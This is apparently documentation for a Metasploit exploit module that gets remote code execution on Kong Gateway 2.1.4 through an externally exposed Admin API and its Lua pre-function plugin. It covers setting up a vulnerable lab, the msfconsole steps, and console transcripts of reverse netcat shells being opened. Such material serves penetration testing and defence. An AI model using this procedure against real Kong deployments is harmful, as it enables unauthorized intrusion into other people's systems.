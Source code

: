 ## Vulnerable Application

Kong Gateway claims to be the "world’s most popular open source API gateway". It allows API operators to add features, such as
Authentication, Traffic Control, Analytics, Transformations, Logging and even serverless functions to existing APIs.

It is open-source, can be downloaded from [konghq.com](https://konghq.com/get-started/#install) and runs on Linux or macOS. Many officially
supported packages are available, for example from repositories, DockerHub or AMI images for AWS.

This exploit module uses the [Admin API](https://docs.konghq.com/2.1.x/admin-api/) to create a route, then assign a the
[pre-function](https://docs.konghq.com/hub/kong-inc/serverless-functions/) serverless plugin to that route. The plugin runs Lua code and is
used to run a system command using `os.execute()`. After execution, the route is then deleted, which also results in the plugin associated
with the route being deleted.

The Admin API, by default (since version 0.12.0) is bound to localhost and therefore shouldn't be available externally. It is, however,
possible to remove that restriction in the configuration. [The documentation](https://docs.konghq.com/2.1.x/secure-admin-api/) states that
"*Kong’s routing design allows it to serve as a proxy for the Admin API itself. In this manner, Kong itself can be used to provide
fine-grained access control to the Admin API.*"

Successfully tested against:

* Version 2.1.4

### Configuring a vulnerable Environment

Run the following commands:

1. `docker network create kong-net`
2. `docker run -d --name kong-database --network=kong-net -p 5432:5432 -e "POSTGRES_USER=kong" -e "POSTGRES_DB=kong" -e
"POSTGRES_PASSWORD=kong" postgres:9.6`
3. `docker run --rm --network=kong-net -e "KONG_DATABASE=postgres" -e "KONG_PG_HOST=kong-database" -e "KONG_PG_USER=kong" -e
"KONG_PG_PASSWORD=kong" kong:latest kong migrations bootstrap`
4. `docker run -d --name kong --network=kong-net -e "KONG_DATABASE=postgres" -e "KONG_PG_HOST=kong-database" -e "KONG_PG_USER=kong" -e
"KONG_PG_PASSWORD=kong" -e "KONG_PROXY_ACCESS_LOG=/dev/stdout" -e "KONG_ADMIN_ACCESS_LOG=/dev/stdout" -e "KONG_PROXY_ERROR_LOG=/dev/stderr"
-e "KONG_ADMIN_ERROR_LOG=/dev/stderr" -e "KONG_ADMIN_LISTEN=0.0.0.0:8001, 0.0.0.0:8444 ssl" -p 8000:8000 -p 8443:8443 -p 8001:8001 -p
8444:8444 kong:latest`

**Note that the `-p 8001:8001` and `-p 8444:8444` options in step 4 will expose the Admin API on all interfaces, resulting in an
installation that is vulnerable to attack from outside systems**. To expose only on the loopback interface, use
`-p 127.0.0.1:8001:8001` and `-p 127.0.0.1:8444:8444` instead.

#### Useful Links

[Kong Docker Installation Instructions](https://docs.konghq.com/install/docker/)

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/multi/http/kong_gateway_admin_api_rce`
4. Do: `set rhosts <ip address of Kong Admin API host>`
5. Do: `set lhost <ip address of metasploit machine>`
6. If necessary, do: `set rport <port of Kong Admin API>`
7. If necessary, do: `set ssl true`
8. If necessary, do: `set PUBLIC-API-RHOST <ip address of Kong public API>`
9. If necessary, do: `set set PUBLIC-API-RPORT <port of Kong public API>`
10. If necessary, do: `run`
11. You should get a shell.

## Options
### PUBLIC-API-RHOST

The IP address or hostname where the public API is available, if different to the admin API. Often the same as RHOST; If not set then
`RHOST` will be used for the public API (and the admin API). Optional

### PUBLIC-API-RPORT

The port where the public API is available. Default: 8000

## Scenarios

### Kong Version 2.1.4 (public API available on same host as admin API)

In this scenario, the admin API is not bound to localhost and is therefore available externally.

```
$ msfconsole -q
[*] Starting persistent handler(s)...
msf > use exploit/multi/http/kong_gateway_admin_api_rce 
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf exploit(multi/http/kong_gateway_admin_api_rce) > set lhost 192.168.194.131
lhost => 192.168.194.131
msf exploit(multi/http/kong_gateway_admin_api_rce) > set rhosts 192.168.194.130
rhosts => 192.168.194.130
msf exploit(multi/http/kong_gateway_admin_api_rce) > run -z

[*] Started reverse TCP handler on 192.168.194.131:4444 
[*] Command shell session 1 opened (192.168.194.131:4444 -> 192.168.194.130:41939) at 2020-10-13 16:24:13 +0100
[*] Session 1 created in the background.
msf exploit(multi/http/kong_gateway_admin_api_rce) > sessions

Active sessions
===============

  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               192.168.194.131:4444 -> 192.168.194.130:41939 (192.168.194.130)
```

### Kong Version 2.1.4 (public API available on different host to admin API)

In this scenario, the admin API is bound to localhost and has been forwarded using ssh local port forwarding.

```
$ msfconsole -q
msf > use exploit/multi/http/kong_gateway_admin_api_rce
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf exploit(multi/http/kong_gateway_admin_api_rce) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf exploit(multi/http/kong_gateway_admin_api_rce) > set public-api-rhost 192.168.194.130
public-api-rhost => 192.168.194.130
msf exploit(multi/http/kong_gateway_admin_api_rce) > run -z

[*] Started reverse TCP handler on 192.168.194.131:4444
[*] Command shell session 1 opened (192.168.194.131:4444 -> 192.168.194.130:44705) at 2020-10-27 20:57:02 +0000
[*] Session 1 created in the background.
msf exploit(multi/http/kong_gateway_admin_api_rce) > sessions

Active sessions
===============

  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               192.168.194.131:4444 -> 192.168.194.130:44705 (127.0.0.1)
```
